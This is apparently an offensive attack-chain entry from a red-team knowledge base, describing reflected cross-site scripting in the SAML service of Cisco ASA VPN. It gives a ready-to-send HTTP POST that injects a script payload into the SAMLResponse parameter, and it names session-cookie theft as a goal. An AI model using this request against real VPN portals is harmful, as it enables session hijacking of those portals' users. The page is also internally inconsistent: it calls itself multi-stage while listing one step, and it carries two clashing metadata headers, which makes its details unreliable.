

---
tags:
  - xss
  - reflected-xss
  - cisco-asa
  - saml
  - vpn
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - VPN
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-in-Cisco-ASA-SAML]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:16:30.305Z'
description: >-
  Exploits a reflected XSS vulnerability in the SAML service of Cisco ASA VPN to
  execute JavaScript and steal session cookies.
skill_level: intermediate
impact_level: high
id: f399f9b6-c1be-4bba-b72a-abe0c3a458bf
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
---
id: 123e4567-e89b-12d3-a456-426614174000
name: Reflected XSS in Cisco ASA SAML Service for Session Compromise
type: attack_chain
description: "Exploits a reflected XSS vulnerability in the SAML service of Cisco ASA VPN to execute JavaScript and steal session cookies."
verified: false
submitted: false
step_count: 1
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Exploit-Reflected-XSS-in-Cisco-ASA-SAML]]
techniques: [[Exploit Public-Facing Application]], [[JavaScript]]
tactics: [[Initial Access]], [[Execution]]
tags: xss, reflected-xss, cisco-asa, saml, vpn
platforms: Web, VPN
tools: []
---

# Reflected XSS in Cisco ASA SAML Service for Session Compromise

Multi-stage attack chain demonstrating a complete attack workflow targeting the SAML service in Cisco ASA VPN.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or curl for sending requests

### Target Environment

- Cisco ASA VPN with SAML service enabled
- Web interface accessible
- Ports: Typically 443 (HTTPS)

### Initial Access Requirements

- Network access to the VPN portal
- No prior credentials needed for unauthenticated XSS
- Target must process SAML assertions

## Detailed Attack Procedures

### Step 1: Exploit XSS Vulnerability
procedure: [[procedures/Exploit-Reflected-XSS-in-Cisco-ASA-SAML]]

**Objective**: Inject and execute malicious JavaScript via a reflected XSS in the SAML assertion consumer service to compromise user sessions.

**Instructions**: Identify the SAML endpoint and send a crafted POST request using [[commands/send-malicious-post-to-cisco-asa-saml]] to inject the payload into the SAMLResponse parameter.

```bash
POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: target.example.com
Connection: close
sec-ch-ua: " Not;A Brand";v="99", "Google Chrome";v="91", "Chromium";v="91"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng, */*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 40

SAMLResponse="><svg/onload=alert('xss')>"
```

**Expected Output**: The browser executes the JavaScript payload, displaying an alert('xss') or allowing further actions like cookie theft.

**Success Indicators**:
- JavaScript alert or payload execution observed
- Malicious script reflected in the response without sanitization

## Attack Chain Summary

### Key Achievements

1. Successful injection of XSS payload into SAMLResponse parameter
2. Execution of arbitrary JavaScript in the victim's browser
3. Potential for session cookie theft or redirection to attacker-controlled sites

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
